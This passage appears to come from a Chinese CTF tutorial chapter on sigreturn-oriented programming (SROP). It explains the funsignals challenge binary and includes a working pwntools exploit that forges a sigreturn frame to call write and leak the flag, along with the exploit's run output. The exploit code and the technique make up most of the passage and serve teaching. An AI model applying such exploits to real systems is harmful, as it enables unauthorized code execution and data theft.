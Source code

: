 而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 `_start` 函数里有两个 syscall。第一个是 `read(0, $rsp, 0x400)`（调用号`0x0`），它从标准输入读取 `0x400` 个字节到 `rsp` 指向的地址处，也就是栈上。第二个是 `sigreturn()`（调用号`0xf`），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 `write(1, &flag, 50)`，调用号为 `0x1`，而函数 `syscall` 正好为我们提供了 `syscall` 指令，构造 payload 如下：

```python
from pwnlib import constants
from pwnlib.elf.elf import ELF
from pwnlib.rop.srop import SigreturnFrame
from pwnlib.tubes.process import process, context

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```

```text
$ python2 exp_funsignals.py
[*] '/home/firmy/Desktop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

如果连接的是远程服务器，`fake_flag_here_as_original_is_at_server` 会被替换成真正的 flag。

这一节我们详细介绍了 SROP 的原理，并展示了一个简单的例子，在后面的章节中，会展示其更复杂的运用，包扩结合 vDSO 的用法。

## 参考资料
